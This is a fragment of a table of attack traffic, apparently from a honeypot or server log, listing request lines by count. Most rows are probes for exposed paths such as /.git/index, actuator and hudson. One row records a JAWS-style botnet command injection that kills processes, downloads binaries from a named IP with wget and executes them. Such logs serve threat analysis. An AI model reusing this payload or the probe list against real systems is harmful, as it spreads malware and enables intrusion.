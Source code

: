 |   8 |                     8 | GET /.git/index HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                            |
|   9 |                     6 | GET /druid/index.html HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                      |
|  10 |                     6 | GET /ReportServer HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                          |
|  11 |                     6 | MGLNDD_xxx.xxx.xxx.xxx_80                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                           |
|  12 |                     6 | GET /shell?killall+-9+arm7;killall+-9+arm4;killall+-9+arm;killall+-9+/bin/sh;killall+-9+/bin/sh;killall+-9+/z/bin;killall+-9+/bin/bash;cd+/tmp;rm+arm4+arm7;wget+http:/\x5C/176.65.140.135/efefa7;chmod+777+efefa7;./efefa7+jaws;wget+http:/\x5C/176.65.140.135/drea4;chmod+777+drea4;./drea4+jaws HTTP/1.1                                                                                                                                                                                                                                                                         |
|  13 |                     6 | GET /?XDEBUG_SESSION_START=phpstorm HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                        |
|  14 |                     6 | GET /actuator/gateway/routes HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                               |
|  15 |                     5 | GET /geoserver/web/ HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                        |
|  16 |                     5 | SSH-2.0-Go                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                          |
|  17 |                     5 | GET /hudson HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                |